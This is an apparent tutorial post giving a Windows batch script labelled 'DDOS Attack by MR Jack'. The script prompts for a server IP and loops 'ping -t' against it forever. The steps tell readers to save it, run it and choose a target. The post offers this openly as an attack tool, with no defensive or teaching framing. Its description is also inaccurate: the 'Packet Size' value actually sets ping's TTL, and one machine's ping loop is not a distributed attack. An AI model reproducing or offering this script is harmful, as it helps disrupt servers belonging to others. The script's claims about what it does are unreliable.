 
1) copy paste the following code in to youre notepad

@echo off
mode 67,16
title DDOS Attack by MR Jack
color 0a
cls
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo DDOS With Batchfile
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo.
set /p x=Server-Target:
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
ping %x%
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDOS

2) its a batch file so save it as whateveruwant.bat
3) run it and select the server target, the ip and how many packets you want to send to the server and then press enter

Enjoy


